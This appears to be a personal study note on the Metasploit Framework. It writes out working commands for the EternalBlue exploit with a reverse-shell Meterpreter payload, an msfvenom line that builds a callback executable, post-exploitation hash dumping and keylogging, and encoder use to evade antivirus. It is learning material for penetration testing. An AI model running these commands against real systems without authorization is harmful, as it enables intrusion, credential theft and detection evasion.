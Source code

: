 The **Metasploit Framework** is a powerful open-source platform for **developing, testing, and executing exploits** against remote targets. It is widely used by **penetration testers**, **red teamers**, and **security researchers** for **exploitation, post-exploitation, and payload delivery**.

---

## 🎯 Purpose of Metasploit

- Launch and test **exploits**
- Generate **payloads** for remote access
- Conduct **post-exploitation tasks**
- Perform **vulnerability verification**
- Automate **penetration testing workflows**

> Developed and maintained by Rapid7, Metasploit is a cornerstone of offensive security.

---

## 🧱 Core Components

| Component        | Description                                           |
|------------------|-------------------------------------------------------|
| **Exploits**      | Code that targets vulnerabilities to gain access     |
| **Payloads**      | Code executed on the target after exploitation        |
| **Encoders**      | Obfuscate payloads to avoid detection                 |
| **Auxiliary Modules** | Scanning, fuzzing, and other non-exploit tasks  |
| **Post Modules**  | Post-exploitation tools (e.g., hash dumping)         |
| **Meterpreter**   | Powerful payload with extended capabilities           |
| **Listeners/Handlers** | Receive incoming connections from payloads      |

---

## ⚙️ Installation

- Pre-installed in **Kali Linux**
- Manual install:
```bash
sudo apt install metasploit-framework
```

Launch with:
```
msfconsole
```

## 🔧 Basic Workflow

1. **Start msfconsole**
```
msfconsole
```

2. **Search for module**
```
search windows/smb
```

3. **Use a module**
```
use exploit/windows/smb/ms17_010_eternalblue
```

4. **Set options**
```
set RHOSTS 192.168.1.10
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.5
```

5. **Run the exploit**
```
exploit
```

## 🧰 Common Payloads

|Payload Type|Description|
|---|---|
|`windows/meterpreter/reverse_tcp`|Interactive Meterpreter shell|
|`linux/x86/meterpreter_reverse_tcp`|Linux Meterpreter payload|
|`cmd/windows/reverse_powershell`|Executes PowerShell commands remotely|
|`generic/shell_reverse_tcp`|Simple command shell|
|`php/meterpreter_reverse_tcp`|For webshell injections in PHP|

---

## 📦 Auxiliary Modules

Use these for scanning, enumeration, and info gathering:
```
use auxiliary/scanner/portscan/tcp
use auxiliary/scanner/ssh/ssh_version
```

## 🛠 Post-Exploitation Modules

Once access is gained:
```
use post/windows/gather/hashdump
use post/multi/recon/local_exploit_suggester
```
Meterpreter offers `getuid`, `hashdump`, `screenshot`, `keyscan_start`, and more.

## 🧠 Encoders & Obfuscation

To avoid AV detection:
```
set ENCODER x86/shikata_ga_nai
```
Use `msfvenom` to create encoded standalone payloads:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f exe > payload.exe
```

## 🧪 Example: EternalBlue Exploit (MS17-010)

```
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
set LHOST 192.168.1.10
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit
```

## 🛡 Legal & Ethical Use

- Always have **written permission**
- Only use in **lab environments** or **authorized engagements**
- Follow **responsible disclosure** if vulnerabilities are found

---

## 🔗 Related Topics

- [[Exploit Development]]
- [[Payload Creation with msfvenom]]
- [[Post-Exploitation Techniques]]
- [[Penetration Testing]]
- [[Privilege Escalation]]
- [[Red Team vs Blue Team]]

---

## 🏷 Suggested Tags

#metasploit #penetration_testing #offensive_security #exploit_dev #payloads #meterpreter #red_team

---

## ✅ To Do

-  Practice with 3 different Metasploit exploits in a lab
-  Use msfvenom to create and test custom payloads
-  Chain exploit + privilege escalation + hashdump
-  Document modules used and effectiveness




